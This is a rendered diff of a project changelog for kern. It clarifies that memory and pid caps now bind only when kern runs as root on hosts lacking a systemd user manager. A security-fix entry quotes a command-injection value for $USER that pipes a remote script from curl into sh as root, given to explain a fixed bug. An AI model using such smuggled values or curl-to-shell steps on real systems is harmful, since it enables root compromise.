

Before and after one commit to getkern/kern, a Markdown page: CHANGELOG.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/CHANGELOG.md
+++ b/CHANGELOG.md
@@ -45,10 +45,14 @@ Nothing yet.
 ### Fixed
 
 - ⚠️ **A box that used to run uncapped on some hosts is now capped, and can be OOM-killed where it
-  previously survived.** `--memory` and the pid cap now bind on a host with no `systemd --user`
-  manager: a container, WSL2, a colima VM on a Mac. Boxes there had no ceiling at all, including the
-  defaults that apply with no flags. `kern doctor` shows which kind of host you are on;
-  `--allow-uncapped` keeps the old behaviour. Hosts that were already capping are unaffected.
+  previously survived.** `--memory` and the pid cap now bind when kern runs **as root** on a host
+  with no `systemd --user` manager: a container, or WSL2, where kern is uid 0. Boxes there had no
+  ceiling at all, including the defaults that apply with no flags. `kern doctor` shows which kind of
+  host you are on; `--allow-uncapped` keeps the old behaviour. Hosts that were already capping are
+  unaffected, and so is a ROOTLESS session with no user manager: there kern still has no cgroup it
+  may write to, and still says so at every start. A colima guest reached over `colima ssh` is that
+  second case, measured on Apple Silicon: the session lands in `/system.slice/ssh.service`, owned by
+  root and not writable by the user, and no `user@<uid>.service` is ever created.
 
 - **`kern doctor` interpolated `$USER` into a `sudo` command it invites you to paste.** With
   `USER='x; curl http://host/p | sh #'` it printed a line that runs an attacker's script as root. It
```
Also changed, not shown: docs/INSTALL.md (+8 -7 lines).
